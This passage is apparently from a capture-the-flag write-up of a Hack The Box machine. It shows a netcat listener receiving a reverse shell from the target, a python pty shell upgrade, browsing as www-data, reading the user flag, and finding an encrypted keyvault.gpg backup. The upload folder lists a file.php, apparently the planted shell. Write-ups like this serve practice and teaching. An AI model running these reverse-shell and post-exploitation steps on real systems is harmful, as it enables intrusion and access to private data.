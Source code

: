 
To make the shell stable.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
┌──(kali㉿kali)-[~/HTB-machine/environment]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.67] 41208
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@environment:~/app/storage/app/public/files$ 

www-data@environment:~/app/storage/app/public/files$ ls
ls
bethany.png  file.php  hish.png  jono.png
www-data@environment:~/app/storage/app/public/files$ cd /home
cd /home
www-data@environment:/home$ cd hish
cd hish
www-data@environment:/home/hish$ ls
ls
backup  user.txt
www-data@environment:/home/hish$ cat user.txt
cat user.txt
30a72cf4a5ea410ba32e962491cfe368
www-data@environment:/home/hish$ 

```

In the `backup` folder, I found:

```bash
www-data@environment:/home/hish$ ls -al
ls -al
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12 11:51 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6 21:28 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12 14:42 .bashrc
drwxr-xr-x 4 hish hish 4096 May  4 19:14 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6 21:43 .local
-rw-r--r-- 1 hish hish  807 Jan  6 21:28 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 backup
-rw-r--r-- 1 root hish   33 May  4 04:57 user.txt
www-data@environment:/home/hish$ cd backup
www-data@environment:/home/hish/backup$ ls
keyvault.gpg

````
